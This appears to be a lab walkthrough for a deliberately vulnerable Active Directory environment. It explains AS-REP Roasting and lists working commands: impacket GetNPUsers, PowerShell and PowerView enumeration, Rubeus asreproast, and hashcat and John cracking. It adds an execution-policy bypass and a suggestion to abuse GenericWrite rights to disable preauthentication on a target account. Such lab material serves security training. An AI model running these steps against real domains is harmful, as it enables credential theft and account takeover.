

# AS-REP Roasting

## Description

AS-REP Roasting is taking place during the initial authentication procedure within Kerberos. It's abusing the fact, that for accounts with the option "Do not require Kerberos preauthentication" set, there is no need to send the (normally required) encrypted timestamp (with the users password hash) at the very beginning. Thus everyone on the network who knows the name of an affected account may ask the KDC (Domain Controller) to authenticate as that user and in return fetch a AS-REP response which partly is encrypted with the AS-REP roastable account´s password hash. Once obtained, an attacker can try to offline crack the hash and fetch the cleartext credentials.

## Context 

To perform this attack, the LAB has configured the account brandon.stark with the account option "Do Not Require Pre-authentication" enabled. Hence, this account is the only vulnerable to AS-REP Roasting.

## Exploiting the vulnerability

This attack can be performed without a computer authenticated on the domain and with or without any domain credentials, however you must be connected to the Domain Controller network.

* Without domain credentials and without access to a domain computer :
On Kali linux, impacket and its scripts collection are already installed by default if not, you can find it [here](https://github.com/SecureAuthCorp/impacket). 
Before using impacket-GetNPUsers to retrieve the hash, you need to create a list of the domain users that you previously found (with enum4linux for example). Then, enter the following command : 

	    impacket-GetNPUsers.py -usersfile <username file> -format <hashcat or john> -outputfile <output file> -no-pass -dc-ip <DC IP address> <domain>/

* With domain credentials :
Open a Powershell window, it can be directly on a domain computer on remotely with PsExec or WinRM. To identify the as-rep roastable accounts you can use one of these commands :
	* With the Active Directory Module :  
	  
            Import-Module ActiveDirectory
            Get-ADuser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name 
	* With [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)* : 

            Import-Module PowerView.ps1 
            Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
            
    * With the as-rep roastable account, the impacket command will be :

	        impacket-GetNPUsers.py -format <hashcat or john> -outputfile <output file> -dc-ip <DC IP address> -no-pass <domain>/<as-rep roastable username>
    
	* With Rubeus, it will find automatically the right account and perform the AS-REP Roasting attack :

            ./Rubeus.exe asreproast /format:<hashcat or john>
    
        You should obtain this result :
        
        

        
The hash of the AS-REP response look like this :

    $krb5asrep$23$brandon.stark@SEVENKINGDOMS.LOCAL:<FIRST_16_BYTES>$<REMAINING_BYTES>

You can know use hashcat to decrypt it :

	hashcat -m 18200 <hash file> <wordlist>

Or use JohnTheRipper :

	john <hash file> -wordlist=<wordlist>

The password of brandon.stark is included in the rockyou.txt wordlist, so you will easily find it by choosing it as the wordlist.

*Type this command to bypass the script execution policy if needed : 
    
    Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass

## Next steps

As you don't need credentials or to comprise a lab computer to perform this attack but only a list of the domain usernames, it can be the step following the enumeration step.
If you have GenericWrite/GenericAll rights over a target user, you can maliciously modify their userAccountControl to not require preauth, use ASREPRoast, and then try bruteforce their AS-REP hash.

